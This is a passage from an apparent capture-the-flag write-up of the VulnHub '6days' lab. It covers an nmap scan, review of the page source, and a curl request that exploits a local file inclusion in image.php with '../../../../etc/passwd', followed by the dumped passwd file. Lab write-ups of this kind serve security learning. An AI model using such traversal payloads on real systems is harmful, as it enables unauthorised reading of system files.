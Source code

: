 Quick nmap scan also showed a filtered http-proxy port 8080
```
root@sengen-kali:~/vulnhub/6days# nmap 192.168.56.104

Starting Nmap 7.50 ( https://nmap.org ) at 2017-07-27 15:57 PDT
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.104
Host is up (0.00015s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
8080/tcp filtered http-proxy
MAC Address: 08:00:27:0B:78:6D (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.63 seconds
```

<b>So it appears that SSH and a Web port is open</b><br />
Navigated to the webpage and there's a simple page with a promocode textbox and button.

<img src="{{ site.url }}/assets/img/ctf/6days_lab_1.png"/>

Using the code NONEEDFORPENTEST results in a response of:<br />
Code expired!

## Viewing source
- We see that the form submits to a php page called checkpromo.php
- We also see an interesting piece for the broken image on the page
  - \<img src="http://192.168.56.104/image.php?src=https%3A%2f%2f4.bp.blogspot.com%2f-u8Jo4CEKQLk%2fV4OpiaoMJ7I%2fAAAAAAAAAiw%2f8kuCpTOpRWUAdp2p4GpegWdnOwxjwHNYQCLcB%2fs1600%2fphoto.jpg" />

## LFI detected
This image link is rather suspicious as it is being provided as a parameter to another php page call image.php (this often means an LFI or RFI could be possible).

I tried a number of LFI paths in the browser but received errors on the page but then tried them again with curl with success:

```
root@sengen-kali:~/vulnhub/6days# curl http://192.168.56.104/image.php?src=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```